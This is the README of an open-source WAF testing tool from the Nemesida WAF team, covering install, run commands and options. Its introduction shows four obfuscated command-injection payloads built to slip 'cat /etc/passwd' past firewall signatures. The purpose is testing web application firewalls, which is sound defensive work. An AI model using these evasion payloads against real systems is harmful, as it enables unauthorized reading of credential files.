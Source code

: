 # WAF Bypass Tool

WAF Bypass is developed by Nemesida WAF team ([nemesida-waf.com](https://nemesida-waf.com)) with the participation of community. WAF Bypass is an open source tool (Python3) to check any WAF for the number of False Positives/False Negative using predefined payloads (if desired, the set of payloads can be changed).

### When using, do not violate the law. We are not responsible for the use of the program.

![WAF Bypass Script](https://camo.githubusercontent.com/9ccddb9274eefa8bbe31cc1b0df79782ea6a92d5985b8eeab093a2cd83ad834a/68747470733a2f2f686162726173746f726167652e6f72672f776562742f73642f756a2f39312f7364756a39317333752d5f356a653970666b6e64306577696c6a732e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free bypass the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' | awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

### Run from Docker
The latest waf-bypass always available via the [Docker Hub](https://hub.docker.com/r/nemesida/waf-bypass). It can be easily pulled via the following command:

<pre>
# docker pull nemesida/waf-bypass
</pre>

Run with the command:

<pre>
# docker run nemesida/waf-bypass --host='example.com'
or
# docker run nemesida/waf-bypass --host='example.com' --proxy='http://proxy.example.com:3128'
</pre>

### Run source code from GitHub
<pre>
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt

# python3 /opt/waf-bypass/main.py --host='example.com'
or
# python3 /opt/waf-bypass/main.py --host='example.com' --proxy='http://proxy.example.com:3128' --block='222' --header 'Authorization: Basic YWRtaW46YWRtaW4='
</pre>

### Options
- the '--proxy' option specifies where to connect to instead of the host.
- the '--block' option specifies an HTTP status code expected when the WAF blocks.  Default if none specified is 403.  May be repeated.
- the '--header' option specifies an HTTP header to send with all requests (e.g. for authentication).  May be repeated.
